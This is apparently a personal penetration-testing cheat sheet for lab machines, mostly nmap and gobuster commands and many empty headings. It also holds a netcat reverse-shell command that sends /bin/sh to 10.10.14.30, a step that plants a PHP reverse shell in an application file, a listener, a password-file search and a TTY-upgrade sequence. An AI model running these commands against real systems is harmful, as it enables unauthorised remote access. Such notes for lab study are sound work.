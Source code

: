 # Enumuration

## NMAP
* *sudo nmap -sC -sV -O -oA \<Output Directory\> \<IP Address\>* - Basic nmap scan for the top ports only. (-sC for default scripts, -sV for version enum, -O for OS enum)
* *sudo nmap -sC -sV -O -p- -oA \<Output Directory\> \<IP Address\>* - Scan for all the ports.
* *nmap --script vuln -oA \<Output Directory\> \<IP Address\>* - Run vulnerability scripts on the target.
* *nmap -sU -oA \<Output Directory\> \<IP Address\>* - Runs a scan for the top UDP ports.

## Fuzzing
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>* - You can use another wordlist as well.
* *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\> -f* - (-f) is used when the server treats /cgi-bin and /cgi-bin/ differently.
* gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u \<IP Address\>/<Directory>/ -x sh,cgi - Searches for files in a directory and (-x) is used to specify the extension.

## Windows Exploits
* Blue (SMB)
* PEASS-ng
* 
## Linux Exploits

## Privilege Escalation

## Reverse Shells 

## How to brute force

## How to break hash

## Useful Commands (Linux)
* grep/search/etc..
* sudo -l
* whoami
* id
* uname -a
* sudo -i -u scriptmanager
* locate password | grep john
* cp php-reverse-shell.php artisan
* nc -nlvp 4444
* nc -nv 10.10.14.30 4444 -e /bin/sh (Target machine to send a reverse shell)
* chmod +x \<File Name\>
* searchsploit --id httpd


## Useful Commands (Windows)
* grep/search/etc..
* sudo -l
* 
## Useful Information

### Useful Information (General)
* Even if you don't have access to a directory you might have access to the files in that directory. (When you get a 403, try fuzzing inside the directory)
* Some servers treat /Directory and /Directory/ differently, the first one might not be accessible but the second might be, make sure to check both when fuzzing.


### Useful Information (Linux)
* Crontab are a list of commands in Linux that are executed on a regular basis. Making it a useful persistent technique and privilege escalation technique.
* If a reverse shell is executed by a specific user, the shell granted will be of that user's privilege. (i.e. if you executed a shell as root, you will get root shell)
* Sometimes even if you can execute a file, you can read/write to it.
* Sometimes even if you aren't root, you can run specific commands with root privilege.

### Useful Information (Windows)


## Injection Payloads

### SQL

### Command Injection

### XSS


## How to upgrade a shell to a fully interactive TTY.
* *python -c 'import pty; pty.spawn("/bin/bash")'* - Spwans */bin/bash* using Python’s PTY module
* *Ctrl + Z* - Background the shell.
* *stty raw -echo && fg* - Upgrade the local terminal with *stty* and foreground the reverse shell.
* *Double Enter*
